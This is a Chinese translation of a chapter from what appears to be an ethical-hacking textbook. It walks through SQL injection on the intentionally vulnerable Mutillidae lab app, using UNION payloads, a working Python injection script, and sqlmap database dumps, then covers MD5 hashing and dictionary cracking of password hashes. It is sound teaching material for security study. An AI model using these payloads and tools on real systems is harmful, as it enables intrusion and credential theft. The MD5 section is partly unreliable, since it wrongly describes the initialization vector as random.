







## **12

**窃取和破解密码**

*缺一枚钉子，失一只鞋，缺一只鞋，失一匹马，缺一匹马，失一骑士，缺一骑士，失一场战斗，缺一场战斗，失一整个王国，所有的一切都是因为缺少一枚马蹄钉。*

–本杰明·富兰克林


黑客常通过找到注入自己代码的方法来攻破网站和 API。本章将向你介绍其中一种技术，称为 SQL 注入，你将使用它从 Web 服务器中提取一个包含用户名和密码的数据库。作为一种安全措施，服务器通常存储密码的哈希值，而不是明文密码。我们将探索多种破解这些哈希值的方法以恢复原文，然后使用工具自动化登录服务的过程，利用每个被窃取的用户名和密码对。

在这个过程中，你将学习一些哈希函数的工作原理以及浏览器如何构造 HTTP 请求。

### SQL 注入

*SQL 注入*漏洞发生在开发人员错误地处理用户输入并使用它生成*结构化查询语言（SQL）*查询时。SQL 是一种用于在数据库中添加、检索或更改信息的编程语言。例如，在一个存储用户个人信息的数据库中，以下查询可能返回社会安全号码为 555-55-5555 的用户的名字和姓氏（这个号码是假的）：

```
SELECT firstname, lastname FROM Users WHERE SSN = '555-55-5555';
```

SQL 语法的完整介绍超出了本书的范围，但 SQL 数据库本质上是组织成表格的，每个表由列和行组成。每列都有一个名称（如`firstname`）和类型（如`TEXT`）。

这里展示的查询，称为`SELECT`查询，旨在从表中检索数据。`SELECT`查询有三个部分，称为*子句*：`SELECT`、`FROM`和`WHERE`。`SELECT`子句指定你想要检索的列的列表。在这个例子中，我们正在检索`firstname`和`lastname`列。`FROM`子句指定我们将从中检索数据的表名。最后，`WHERE`子句指定我们想要检索的行的属性。例如，`WHERE SSN='555-55-5555'`将检索`SSN`列中值为`'555-55-5555'`的行。

当然，程序员很少手动编写这些查询。相反，他们编写程序，以便在需要时生成这些查询。因此，为了允许更通用的查询，程序员可能会用一个变量，如`$id`，来替代硬编码的社会安全号码：

```
SELECT firstname, lastname FROM Users WHERE SSN = '$id';
```

将固定值替换为变量使程序能够轻松填补缺失的信息以生成查询。现在，查询将返回与用户提供的任何`$id`值相关的记录的名字和姓氏。你可能会在各种应用程序中发现类似的查询。例如，客户服务代理可能会通过在银行应用程序中的文本框输入某人的社会安全号码来检索该人的信息。

然而，由于程序将社会安全号码直接插入 SQL 查询，攻击者可以利用文本框插入他们想要查询的任何值，包括他们自己的 SQL 命令，而不是命令预期的字符串。例如，想象一个攻击者输入了以下内容：

```
'UNION SELECT username, password FROM Users WHERE '1' = '1
```

Web 应用程序将用黑客的输入替换`$id$`值，并且因为输入中包含 SQL 代码，数据库将执行以下查询。

```
SELECT firstname, lastname FROM Users WHERE SSN = ''
UNION
SELECT username, password FROM Users WHERE '1' = '1';
```

这个查询从`Users`表中选择`firstname`和`lastname`字段，如果用户的`SSN`字段为空。然后，`UNION`命令将这个值与第二个查询的结果连接起来，而第二个查询是攻击者作为用户输入提供的。这个查询返回所有条目的用户名和密码，因为它们都满足条件（`'1' = '1'`始终为真）。

请注意注入的 SQL 命令是多么精心构造的。特别是，它以单引号（`'`）开头并以单引号（`'`）结尾。这是必要的，因为 SQL 数据库只会执行有效的查询，因此我们必须确保即使注入后查询仍然有效。通过在`UNION`关键字之前包含`'`，我们关闭了先前的查询。然后，我们在注入的命令末尾再次包含一个`'`，以确保关闭原查询中遗留的尾部引号。

SQL 注入属于一种更广泛的攻击类别，称为*注入*攻击，攻击者通过依赖用户输入将他们的代码偷偷注入到应用程序中。许多 Web 应用程序会对输入进行过滤，以去除与注入攻击相关的字符。例如，它们可能会将引号字符（`'`）替换为`\'`，这个过程叫做*转义*。这意味着你通常需要巧妙地构造你的注入代码。开放 Web 应用程序安全项目（OWASP）提供了一张防止注入攻击的备忘单，地址是*[`cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html`](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)*。

### 从网站数据库窃取密码

为了练习执行 SQL 注入，请在你的 Metasploitable 虚拟机上启用*Mutillidae* Web 应用程序。Adrian Crenshaw 和 Jeremy Druin 设计了 Mutillidae，用于展示常见的 Web 漏洞，它已预装在你的 Metasploitable 服务器上。然而，你必须先进行配置。使用用户名**msfadmin**和密码**msfadmin**登录到 Metasploitable，然后编辑*config.inc*文件，你可以通过以下命令访问该文件：

```
msfadmin@metasploitable:~$ sudo vim /var/www/mutillidae/config.inc

<?php

         ...

         $dbhost = 'localhost';

         $dbuser = 'root';

         $dbpass = '';

      ➊ $dbname = 'owasp10';

?>
```

将 `$dbname$` 变量 ➊ 从 `metasploitable` 修改为 `owasp10`。这会指示 Mutillidae 使用易受攻击的 owasp10 数据库，而不是 Metasploitable 数据库。

#### *枚举 Web 服务器上的可访问文件*

像你刚刚编辑的配置文件通常会存储网页应用需要与数据库或其他后台服务通信的用户名和密码。如果这些文件的访问权限设置不当，攻击者可能读取它们并提取凭证。例如，WordPress 网站将数据库凭证存储在 *wp-config.php* 文件中。假设该文件的访问权限设置不正确，使得它可以公开访问，那么任何人在互联网上都可以通过在浏览器中输入以下 URL 来读取它：*http://<Word-press-url>/wp-config.php*。

如果你不知道要查找的文件名，或者想检查多个可能存在的文件，可以使用像 `dirb` 这样的工具列出网站目录中的文件。该工具通过使用一组预选单词来生成可能的 URL，尝试查找网页目录中的文件。它会用预选的关键词列表，如 `wp-config.php`、`config.in` 和 `config.php`，并通过生成并尝试访问以下 URL 来检查这些文件是否可以读取：

```
http://<web-app-url.com>/ wp-config.php
http://<web-app-url.com>/ config.in
http://<web-app-url.com>/ config.php
```

如果服务器上不存在某个页面，它会返回 404 错误。但如果页面存在，工具会将其添加到可访问页面的列表中。使用预选单词列表的攻击通常被称为 *字典攻击*。这种攻击模式非常常见，稍后我们将在本章中再次看到它的应用。

你可以通过在 Kali Linux 虚拟机上打开终端并运行以下命令，对 Metasploitable 服务器执行基于字典的目录列出攻击：

```
kali@kali:~$ dirb http://<METASPLOITABLE-IP>/mutillidae

-----------------
DIRB v2.22
By The Dark Raver

--snip--
GENERATED WORDS: 4612

---- Scanning URL: http://192.168.1.112/mutillidae/ ----

 ==> DIRECTORY: http://192.168.1.112/mutillidae/classes/

+ http://192.168.1.112/mutillidae/credits (CODE:200|SIZE:509)
```

#### *执行 SQL 注入*

现在在 Kali Linux 机器上打开一个网页浏览器，导航到 Mutillidae 网页应用，地址为 *http://<METASPLOITABLE-IP>/mutillidae/*。

Mutillidae 是故意脆弱的，因此它包含多个常见漏洞。点击 **OWASP Top 10** ▶ **Injection** ▶ **SQLi Extract Data** ▶ **User Info**。你应该能看到在图 12-1 中显示的登录界面。



*图 12-1：Mutillidae 登录界面*

OWASP 是一个网络安全研究小组，发布年度 Web 漏洞排名，称为 OWASP Top 10（如果你计划进行网站审计，阅读这个列表并熟悉这些漏洞是一个好主意）。还要检查你的应用的安全级别是否设置为 0，这将禁用 Mutillidae 的防御功能。

现在是测试你 SQL 注入技巧的时候了。在继续阅读之前，尝试生成一个你自己的 SQL 注入查询，提取站点数据库中所有的用户名和密码。在登录页面的密码字段中输入你的查询。当你测试不同的注入查询时，查看 Mutillidae 生成的错误信息。阅读这些错误信息将帮助你磨练查询。例如，你可能会写一个查询，尝试读取 `users` 表。然而，如果该表不存在，你将看到以下信息：

```
Error executing query: Table 'owasp10.users' doesn't exist
```

你不一定每次都这么幸运；有些系统只会生成通用的错误信息。成功对这些系统进行注入攻击的攻击通常被称为 *盲注攻击*，因为攻击者无法立即看到是否失败。为了绕过这个限制，攻击者通常依赖查询执行时间的差异来判断是否正确执行。

在你练习过自己的查询之后，尝试查询 `accounts` 表。以下注入代码应该提取数据库中 16 个用户的用户名和密码：

```
' UNION SELECT * FROM accounts where '' ='

Username=kevin
Password=42
Signature=Doug Adams rocks

Username=dave
Password=set Signature=Bet
on S.E.T. FTW
```

如你所见，注入的查询成功地与现有查询的结果合并，这使得你能够提取 `accounts` 表中的所有字段。我选择只展示返回数据的一部分。

### 编写你自己的 SQL 注入工具

在你掌握了 SQL 注入机制后，尝试编写一个 Python 程序来自动化注入过程。我们的程序将模拟通过模仿浏览器发送的 HTTP 请求来提交网站的登录表单；因此，这个项目将需要基本的 HTTP 协议知识。接下来，我们先来讨论一下 HTTP。

#### *理解 HTTP 请求*

每当用户与网站互动时，他们的浏览器会将他们的操作转换成 *HTTP 请求* 并发送到 Web 服务器。HTTP 请求包含用户请求的资源名称以及用户发送到服务器的数据。服务器回应 *HTTP 响应* 消息，其中包含用户请求的 HTML 或二进制数据。这些响应随后被解析并显示给用户。

为了生成 HTTP 请求，你首先需要理解它们的结构。为了准确起见，让我们使用 Wireshark 捕获并检查浏览器提交 Mutillidae 登录表单时生成的确切 HTTP 请求，用户名为“test”，密码为“abcd”。（返回 第三章 查看如何使用 Wireshark 监控流量的复习内容。）

开始监控以太网（`eth0`）接口，然后提交登录表单以生成请求。提交后，使用过滤器选择包含 Metasploitable 服务器 IP 的数据包，然后选择 **跟踪流** 选项。你的请求应该看起来像这样：

```
➊ GET /mutillidae/index.php?page=user-info.php&➋ username=test&password=abcd&...

   Host: 192.168.1.101

   User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox

			 /68.0

   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

   Accept-Language: en-US,en;q=0.5

   Accept-Encoding: gzip, deflate

   Referer: http://192.168.1.101/mutillidae/index.php?page=user-info.php.....

   Connection: keep-alive

➌ Cookie: PHPSESSID=3e726056cf963b43bd87036e378d07be

   Upgrade-Insecure-Requests: 1
➍
```

如你所见，HTTP 请求包含多个字段。第一个字段 ➊ 表示发送请求的类型。Web 表单通常使用 `GET` 或 `POST` 请求。`GET` 请求将用户输入的数据编码在 URL 中，作为 *查询字符串参数*，这些变量包含在 URL 的末尾 ➋。`?` 操作符表示查询字符串参数的开始，每个参数之间通过 `&` 操作符分隔。在此请求中，用户名和密码值作为查询字符串参数包含在发送到服务器的请求中。然而，如果表单使用 `POST` 请求，用户的数据将被放置在请求体中，如果存在的话，会出现在 ➍ 处。

要在不提交表单的情况下确定表单是生成 `GET` 请求还是 `POST` 请求，你可以通过右键点击页面并选择 **查看页面源代码** 来检查页面的源代码。快速搜索 `method=` 关键字应会返回表单的代码。例如，Mutillidae 登录表单的代码如下所示：

```
<form action="./index.php?page=user-info.php"

      method="GET"

      enctype="application/x-www-form-urlencoded" >
```

这告诉我们该表单将生成一个 `GET` 请求。

让我们继续查看 HTTP 请求。下一个头字段 `HOST` 标识你正在发送请求的 web 服务器。在此例中，`192.168.1.101` 是包含该页面的服务器的 IP 地址。`User-Agent` 头字段标识浏览器。在这里，我使用的是在 `64-bit` Linux 机器上的 Mozilla Firefox 浏览器。接下来，`Accept` 字段指定浏览器接受的格式、语言和压缩（编码）类型。

`Referer` 字段包含你在访问当前页面之前访问的上一页。许多网站记录此值以识别其流量来源。（尽管某些字段，如 `HOST`，是必需的，但其他字段，如 `Referer`，是可选的。因此，在其他请求中可能看不到它们。）`Connection` 字段指定连接类型，`keep-alive` 选项指示服务器保持 TCP 连接打开，以便接受多个请求。

`Cookie`字段➌包含服务器发送给浏览器的任何 cookie。HTTP 协议是无状态的，意味着它假设每个请求都是独立发出的。因此，协议不会记住你发送的任何先前请求。这就是为什么`Cookie`字段允许像 web 服务器这样的程序跟踪和整理用户与网站的交互，即使协议本身并不会记住。用户首次访问网站时，服务器可能会分配一个唯一的数字作为 cookie。服务器使用这个唯一的数字来验证用户并正确处理他们的 web 请求，因为它会假设所有包含相同 cookie 的 HTTP 请求都属于同一个用户。每次用户发送 web 请求时，浏览器都会检查 cookie 值。这就像在说，“嘿，web 服务器，记得我吗？这是你给我的 ID：`PHPSESSID=3e726056cf963b43bd87036e378d07be`”。如果攻击者窃取了这个 cookie，他们可能会冒充受害者并访问他们的 web 会话。

最终的`Upgrade-Insecure-Requests`字段请求 web 服务器在可能的情况下将连接升级为加密的 HTTPS 连接。（此数据包是从未加密的与 Metasploitable 服务器的连接中捕获的。）现在我们已经看到 Mutillidae 的凭证以查询字符串参数的形式发送到服务器，我们将以相同的方式注入我们的 SQL 负载。

#### *编写注入程序*

我们的 Python 程序将发送一个类似我们刚刚回顾过的 HTTP 请求，只是它将包含我们的 SQL 注入负载作为查询参数。在你的 Kali Linux 机器上创建一个名为*injections*的桌面文件夹。在该文件夹中创建一个名为*sql_injection.py*的新文件，并将以下内容复制到其中：

```
import socket
import argparse
import urllib.parse

def get_request(HOST, URL, parameter, SQL_injection, COOKIE):

    injection_encoded = urllib.parse.quote_plus(SQL_injection)

 ➊ request = ("GET "+ URL.replace(parameter+"=",parameter+"="

			 +injection_encoded) +"\r\n"

                "Host: "+HOST+"\r\n"

                "User-Agent: Mozilla/5.0 \r\n"

                "Accept: text/html,application/xhtml+xml,application/xml \r\n"

                "Accept-Language: en-US,en;q=0.5 \r\n"

                "Connection: keep-alive \r\n"

                "Cookie: "+COOKIE+" \r\n")

    return request

def main():

 ➋ parser = argparse.ArgumentParser()

    parser.add_argument('--host', help='IP-address of server')

    parser.add_argument('-u', help='URL')

    parser.add_argument('--param', help='Query String Parameter')

    parser.add_argument('--cookie', help='Session Cookie')

    args = parser.parse_args()

    HOST = args.host

    URL = args.u

    PARAMETER = args.param

    COOKIE = args.cookie

    SQL_injection = '\'UNION SELECT * FROM accounts where \'1\'=\'1'

    PORT = 80

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as tcp_socket:

        tcp_socket.connect((HOST, PORT))

        request = get_request(HOST, URL, PARAMETER, SQL_injection, COOKIE)

        print(request)

     ➌ tcp_socket.sendall(request.encode())

        while True:

            data = tcp_socket.recv(1024)

            print(data)

            if not data:

                break

main()
```

我们定义了一个名为`get_request()`的函数，它返回包含我们作为参数传入的信息的 HTTP 请求。我们将查询参数的值替换为 SQL 注入查询➊。我们必须对查询进行编码，因为我们将其直接注入到 URL 中，而 URL 不能包含空格或某些特殊字符。`urllib`库会在将 SQL 注入查询添加到 URL 之前进行 URL 编码。这一编码过程会将所有空格转换为字符序列`%20`。

当我们提供了所有变量后，函数将返回 HTTP 请求，我们将通过 TCP 套接字发送该请求➌。虽然不是必须的，但可以考虑使用`argparse`库➋来解析命令行参数。这将为你的命令行工具增添专业感。`argparse`库允许你添加自定义标志和帮助菜单。

运行以下命令来测试你新的 SQL 注入工具：

```
kali@kali:~/Desktop/injection$ sudo python3 sql_injection.py --host="

			 192.168.1.112" -u="/mutillidae/index.php?page=user-info.php&username=&

			 password=&user-info-php-submit-button=View+Account+Details" --param="

			 password" --cookie="PHPSESSID=3e726056cf963b43bd87036e378d07b"
GET /mutillidae/index.php?page=user-info.php&username=&password=+%27UNION+

			 SELECT+%2A+FROM+accounts+where+%271%27%3D%271&user-info-php-submit-

			 button=View+Account+Details
Host: 192.168.1.112
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml,application/xml
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Cookie: PHPSESSID=3e726056cf963b43bd87036e378d07b

...

16 records found.<p><b>Username=</b>admin<br><b>Password=</b>adminpass<br><b>

			 Signature=</b>Monkey!<br><p><b>Usern'
b'ame=</b>adrian<br><b>Password=</b>somepassword<br><b>Signature=</b>Zombie

			 Films Rock!<br><p><b>Username=</b>john<br><b>Password=</b>monkey<br><b

			 >Signature=</b>I like the smell of confunk<br><p><b>Username=</b>

			 jeremy<br><b>Password=</b>password<br><b>Signature=</b>d1373 1337

			
			 speak
```

脚本打印请求和服务器的 HTML 响应。前面的示例显示了 HTML 响应的一部分，其中包含用户名和密码对。调试脚本的一个好方法是使用 Wireshark 捕获请求和响应。

### 使用 SQLMap

我们刚刚构建了自己的 SQL 注入工具，但现有工具比我们的功能更强大。最流行的 SQL 注入工具之一是 *SQLmap*，它可以自动化发现和利用 SQL 注入漏洞的过程。让我们对 Mutillidae Web 应用程序执行另一次注入攻击。打开 Kali Linux 中的新终端，并运行以下命令启动 SQLmap shell（它应该已经预装在 Kali Linux 中）：

```
kali@kali:~$ sqlmap -u "http://<Metasploitable-IP>/mutillidae/index.php?page=

			 user-info.php&username=&password=&" --sqlmap-shell

sqlmap-shell>
```

`-u` 选项指定了我们要攻击的网页 URL。这里我们传入了本章之前攻击过的 Mutillidae 登录页面。

在 shell 中，输入 `--dbs`。这将列出系统中的所有数据库：

```
   sqlmap-shell> --dbs

   [16:16:04] [INFO] testing connection to the target URL
➊ you have not declared cookie(s), while server wants to set its own ('PHPSESSID

			 =724251ceeec...19e0ca7aeb'). Do you want to use those [Y/n] :Y

   ...

   Parameter: username (GET)

       Type: boolean-based blind

       Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL

			 comment)

    ➋ Payload: page=user-info.php&username='OR NOT 6675=6675#&password=&user-

			 info-php-submit-button=View Account Details

   ...

   [16:16:06] [INFO] fetching database names
➌ available databases [7]:

   [*] dvwa

   [*] information_schema

   [*] metasploit

   [*] mysql
➍ [*] owasp10

   [*] tikiwiki

   [*] tikiwiki195
```

`SQLmap` 首先连接到服务器并获取一个新的 cookie ➊。然后，它使用负载 `' OR NOT 6675=6675#` ➋ 来测试查询字符串参数是否存在 SQL 注入漏洞。这里，`#` 将 SQL 查询的其余部分注释掉。最后，`SQLmap` 注入一个查询，返回服务器上所有数据库的列表 ➌。你可以看到有七个数据库。

现在我们知道该数据库服务器托管着多个数据库。让我们专注于探索我们一直在攻击的 owasp10 数据库➍。运行以下命令列出该数据库的所有表格。`-D` 标志让你选择一个特定的数据库，`--tables` 列出该数据库的所有表格：

```
sqlmap-shell> -D owasp10 --tables

[17:02:24] [INFO] fetching tables for database: 'owasp10'
Database: owasp10

[6 tables]

+----------------+

| accounts       |

| blogs_table    |

| captured_data  |

| credit_cards   |

| hitlog         |

| pen_test_tools |

+----------------+
```

该命令返回了六个表格。表格 `accounts` 看起来尤其有趣，因为它听起来可能包含用户信息。让我们查看其内容。使用 `-T` 标志来选择特定的表格，使用 `--dump` 选项将表格内容转储（显示）到终端。如果不包括 `--dump` 选项，SQLmap 会将表格内容写入文件。

```
sqlmap-shell>-D owasp10 -T accounts --dump

Table: accounts

[16 entries]

+-----+----------+----------+--------------+-----------------------------+

| cid | is_admin | username | password     | mysignature                 |

+-----+----------+----------+--------------+-----------------------------+

...

| 11  | FALSE    | scotty   | password     | Scotty Do                   |

| 12  | FALSE    | cal      | password     | Go Wildcats                 |

| 13  | FALSE    | john     | password     | Do the Duggie!              |

| 14  | FALSE    | kevin    | 42           | Doug Adams rocks            |

| 15  | FALSE    | dave     | set          | Bet on SET FTW              |

| 16  | FALSE    | ed       | pentest      | Commandline KungFu anyone?  |

+-----+----------+----------+--------------+-----------------------------+
```

输出显示了 `accounts` 表中的数据。共有五列：`cid`、`is_admin`、`username`、`password` 和 `mysignature`。还有 16 行数据。我剪辑了顶部几行以节省空间。

你可能认为开发人员可以通过加密这些密码来保护它们。Adobe 的工程团队也曾认为他们可以通过这种方式保护密码。但是，如果有人窃取了你的加密密钥，或者仅仅猜测出了它会怎样呢？作为 2013 年 Adobe 密码泄露事件的一部分，黑客窃取并解密了超过 1.5 亿个用户名和密码。

理想情况下，网站应该以一种无法让管理员或攻击者恢复明文密码的形式存储密码。软件开发人员通常使用哈希等单向函数，而不是加密密码。在下一节中，我们将了解哈希函数，并讨论黑客是如何破解它们的。我将解释为什么你应该选择包含大写字母、小写字母和符号的长密码。

保持 SQLmap 终端打开；你将在下一节中使用它。

### 密码哈希

我们在第六章中介绍了哈希和哈希函数，尽管我们没有详细讨论它们，但它们非常有用。数据库管理员通常不会存储明文密码，而是存储密码的哈希值，以提供额外的安全性。值得深入了解哈希函数的一些基本特性，以及黑客是如何破解它们的。

哈希函数的第一个特性是它是一个*单向函数*。这意味着，给定输出后，几乎不可能找到输入。你可以将哈希函数类比为一个数字搅拌机。一旦信息被搅拌，便无法从搅拌结果中恢复出原始信息。图 12-2 展示了对两个字符串进行哈希处理的结果。



*图 12-2：两个字符串的哈希值*

哈希的第二个重要特性是，找到两个输入使得它们哈希到相同的输出是非常耗时的。这里的“耗时”是指，当哈希函数安全时，找到两个哈希结果相同的输入需要的时间将超过宇宙的年龄。如果两个输入哈希到相同的值，这叫做*碰撞*。我们估计找到一个 SHA-256 哈希函数的碰撞需要 36 万亿年。为了让这个数字更有意义，宇宙的年龄只有 138 亿年。

由于碰撞如此罕见，开发者通常将消息的哈希视为其数字指纹：该消息的唯一标识符。这就是为什么系统管理员可以使用哈希来表示密码，而不需要存储原始密码的原因。如果用户登录系统，他们的密码会被哈希并与数据库中的哈希进行比较。原始密码永远不会被存储。

哈希函数的第三个特性是，无论输入大小如何，它始终产生固定大小的输出。长密码和短密码会产生相同长度的哈希值。（你可能已经在想：如果所有哈希值长度相同，那为什么还需要长密码？这是因为较长的密码仍然更难破解。想要了解原因，可以跳到本章的“破解哈希”部分。）

#### *MD5 哈希的结构*

如果你对哈希函数设计感兴趣，这里简要讨论一下 MD5 哈希函数的内部工作原理。让我们来看看这个“搅拌机”的核心部分。

MD5 哈希函数在 512 位的块上进行操作。该块的前 448 位包含被哈希的消息，最后 64 位是消息的长度。如果消息较短，则会用一个“1”位和若干个“0”位进行填充。如果消息长度超过 448 位，则会将其分成多个块。图 12-3 展示了这些 512 位如何被打乱。



*图 12-3：MD5 哈希的构建块*

首先，使用一个 128 位的随机数（nonce）来创建一个初始化向量。然后，将 128 位的初始化向量分成四个 32 位数据块：*A*、*B*、*C*和*D*。混合过程从使用一个函数（在图 12-3 中标记为*F*）开始，该函数将*B*、*C*和*D*的随机值结合起来，生成另一个 32 位的值。*F*的公式如下：

*F*(*B*, *C*, *D*) = (*B* **and** *C*) **or** (( **not** *B*) **and** *D*)

该函数的输出结果被送入一个函数*K*，它将输出与原始消息的 32 位值（*M[i]*）、32 位常数（*T[i]*）和*A*中的 32 位结合。*i*值表示特定的迭代步骤。每次仅处理 512 位消息中的 32 位。下面是函数*K*的公式：

*K*(*B*, *M*, *T*, *A*, *F*) = *B* ⊞ ((*A* ⊞ *F* ⊞ *M[i]* ⊞ *T[i]*) <<< *s[i]*)

⊞符号表示模加法，相当于将两个数字相加后对某个数*n*取模。如果*n*为 7，则 6 ⊞ 3 的结果是 2。<<<符号表示循环左移，*s[i]*表示移位的数量。函数*K*的输出结果用来覆盖*A*数据块的值，然后通过进行循环右移重新排列数据块，如图 12-3 所示。最终得到的 128 位被送回整个系统，经过 16 次迭代，每次处理原始 512 位消息中的一个 32 位段（16 *×* 32 = 512）。

这里描述的数据块只是 MD5 哈希函数所使用的四个数据块中的一个。数据会在给定的轮次中经过四个数据块。图 12-4 展示了四个数据块如何组合在一起。



*图 12-4：组合 MD5 算法的四个数据块*

每个数据块都遵循相同的一般结构。唯一的例外是每个数据块使用了一个特定的函数。这些函数如下：

*H*(*B*, *C*, *D*) = *B* **xor** *C* **xor** *D*

*G*(*B*, *C*, *D*) = (*B* **and** *D*) **or** (*C* **and** ( **not** *D*))

*I*(*B*, *C*, *D*) = *C* **xor** (*B* **or** ( **not** *D*))

如果消息长度超过 448 位，则下一个数据块的初始化向量通过计算数据块*I*的输出块：*A*、*B*、*C*和*D*，并将其与原始初始化向量的块进行 32 位模加法运算。最终的 128 位初始化向量是 MD5 哈希值。

即使经过这么多混合，1993 年，Antoon Bosselaers 和 Bert den Boer 发现 MD5 并不满足哈希的无碰撞特性，因为可以生成两个具有相同哈希值的消息。因此，MD5 算法不再安全，不应该在构建加密系统时使用。别担心：其他哈希算法如 SHA-256、SHA-512 和 SHA-3 仍然被认为是安全的。图 12-5 展示了 SHA-256 哈希函数的一般架构。C 函数代表压缩函数，可以使用与图 12-3 类似的图示和语言进行描述。



*图 12-5：SHA-256 哈希函数*

#### *破解哈希*

我们如何破解一个密码哈希来恢复原始密码呢？安全哈希函数是单向函数，因此我们不能直接反向工程哈希。但并非一切都失去希望；我们只需要聪明一点。

回想一下，每个密码都会生成一个唯一的哈希，因此两个匹配的哈希必须共享相同的明文密码。因此，如果我们想破解一个特定的哈希，我们应该计算许多已知密码的哈希，并将生成的哈希与我们的原始哈希进行比较。如果找到匹配项，我们刚刚计算的明文密码必须与我们正在尝试破解的哈希的明文密码相同。这种攻击方式叫做基于字典的攻击，这也是我们之前用来发现服务器上文件的策略。让我们使用基于字典的攻击来破解 Metasploitable 虚拟机上数据库中的一些密码哈希。

重新打开包含 SQLmap 会话的终端，并使用以下命令从 Damn Vulnerable Web App（DVWA）数据库的用户表中转储用户名和密码。此 SQLmap 命令将执行基于字典的攻击，尝试破解数据库中的密码哈希：

```
sqlmap-shell> -D dvwa -T users -C user,password --dump

do you want to store hashes to a temporary file for eventual further

			 processing with other tools [y/N] y
do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[18:08:22] [INFO] using hash method 'md5_generic_passwd'

Database: dvwa
Table: users

[5 entries]

+---------+---------------------------------------------+

| user    | password                                    |

+---------+---------------------------------------------+

| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |

| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |

| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |

| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |

| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |

+---------+---------------------------------------------+
```

在这种情况下，基于字典的攻击能够破解字典中的所有密码。

当然，基于字典的攻击只有在数据库中的密码也包含在预定义的密码列表中时才能成功。一份好的密码列表对于哈希破解过程至关重要。*SecLists*是一个出色的安全列表集合，包含了多个密码列表，你可以用来进行基于字典的攻击。例如，*10-million-password-list-top-1000000.txt*包含了多达一百万个密码。SecLists 还提供了其他语言的密码列表，如法语、荷兰语和德语。SecLists 集合中还包含了像 zipbomb 和 webshells 这样的有效载荷，以及可以用作模糊测试攻击测试数据的条目。*Zipbombs*是小型的压缩文件，解压后会变得非常大。你可以通过压缩一个包含零的巨大文件来制作自己的 zipbomb。*Webshells* 是允许你通过网页控制服务器的外壳。

